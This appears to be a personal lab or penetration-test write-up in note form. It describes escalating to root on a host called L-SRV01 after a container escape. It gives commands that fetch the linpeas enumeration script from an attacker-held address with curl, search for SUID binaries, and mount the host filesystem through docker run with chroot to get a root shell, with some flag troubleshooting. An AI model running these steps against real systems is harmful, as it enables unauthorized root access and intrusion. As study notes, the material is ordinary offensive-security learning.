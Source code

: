 
We have shell on L-SRV01 and escaped the container, we need to perform
local privilege escalation to gain root on the box.

Will download the linpeas script using the curl command.
```
curl -O http://10.50.104.169:8080/linpeas.sh
```


or save a file with specific name
```
curl -o enum.sh  http://10.50.104.169:8080/linpeas.sh
```

As we lost the connect will wait for 15 minutes and see what thing we have to see in the linpeas output.

I think we can't download the scrip so will run the command manually as well as do the enumeration manually.

Already know about the SUID concept as well as we also have the command in order to check specifically for that.
```
find / -perm -u=s -type f 2>/dev/null
```

![[Pasted image 20240225114721.png]]

```
docker ps -a
```
![[Pasted image 20240225115238.png]]

```
./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
So what i was doing wrong i that we have to replace the alphine with the IMAGE id

```
./docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```
this command also gives error
https://stackoverflow.com/questions/43099116/error-the-input-device-is-not-a-tty

We have to remove the t from the -it 


```
docker run -v /:/mnt --rm -i cb1b741122e8 chroot /mnt sh
```
![[Pasted image 20240225115552.png]]

![[Pasted image 20240225120029.png]]

Finally we escalated and got the root user
![[Pasted image 20240225120209.png]]